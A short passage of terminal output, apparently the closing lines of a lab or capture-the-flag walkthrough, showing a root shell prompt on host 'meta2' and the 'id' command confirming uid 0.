root@meta2:/home/jnelson# id
uid=0(root) gid=0(root) groups=0(root)
```